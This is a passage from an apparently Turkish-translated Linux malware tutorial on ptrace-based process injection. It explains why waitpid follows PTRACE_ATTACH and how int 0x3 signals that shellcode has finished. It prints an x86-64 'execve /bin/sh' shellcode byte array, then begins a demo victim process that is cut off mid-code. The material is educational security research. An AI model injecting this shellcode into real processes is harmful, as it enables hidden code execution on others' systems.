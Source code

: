 ```cpp
  printf("injection complete\n");
  return 0;
}
```

Ama burada bir durum var. *Neden işlem enjeksiyon kodunda `waitpid` kullanıyoruz?*     
Bir işlemi `ptrace` ile bağladığımızda (`PTRACE_ATTACH` aracılığıyla), hedef işlem hemen durmaz. İşletim sistemi, hata ayıklayıcının (enjeksiyon yapan kodumuzun) kontrolü ele aldığını belirten bir sinyal gönderene kadar işlem yürütülmeye devam eder. Hedef işlem bu duraklama durumuna girene kadar yürütücümüzün beklemesini sağlamak için `waitpid` kullanırız:      

```cpp
ptrace(PTRACE_ATTACH, target_pid, NULL, NULL);
waitpid(target_pid, NULL, 0);
```

`waitpid` olmadan, hedef işlem tamamen durdurulmadan önce belleği okumaya veya değiştirmeye çalışabiliriz, bu da tanımsız davranışlara yol açabilir.      

Ayrıca, işlem enjeksiyonunda, *enjeksiyon yapılan shellcode'un çalışmasını tamamladığını* algılamamız gerekebilir. Bunu yapmak için `int 0x3` talimatı gibi bir yazılım kesmesi kullanırız, bu da hedef işlemde `SIGTRAP` sinyalini tetikler. Bu sinyal işlemi duraklatır ve `waitpid` ile tekrar kontrol sağlamamıza olanak tanır.    

Peki ya `wait`? `wait` nedir ve ne zaman kullanılır?     

`wait` fonksiyonu, `waitpid`'in daha basit bir versiyonudur. Herhangi bir alt sürecin durum değiştirmesini bekler. Ancak `waitpid` gibi belirli bir işlem kimliği (PID) belirlememize veya gelişmiş seçenekler kullanmamıza izin vermez.    

İşlem enjeksiyonu bağlamında genellikle `wait` kullanmayız, çünkü belirli bir işlemi hassas bir şekilde kontrol etmemiz gerekir. Ancak, birden fazla alt sürecin bulunduğu ve hangisinin önce değiştiğini umursamadığımız durumlarda `wait` kullanılabilir.     

Bu nedenle, `waitpid`'i stratejik olarak kullanarak sorunsuz ve güvenilir işlem enjeksiyonu sağlayabiliriz.       

Basitlik açısından, en basit payload'u kullandım:     

```cpp
char payload[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62"
"\x69\x6e\x2f\x2f\x73\x68\x57\x54"
"\x5f\x6a\x3b\x58\x99\x0f\x05"; // execve /bin/sh
```

### demo

Öncelikle, gösterim amacıyla bir "kurban" sürece ihtiyacımız var.   

Sonsuz döngü içinde çalışan, belirli aralıklarla mesaj yazdıran basit bir "kurban" işlemi yazdım.Bu program, gerçek bir çalışan süreci simüle eder:    

```cpp
/*
 * meow.c
 * simple "victim" process for injection testing
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/22/linux-hacking-3.html
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
    printf("meow-meow... PID: %d\n", getpid());
    sleep(5); // simulate periodic activity
```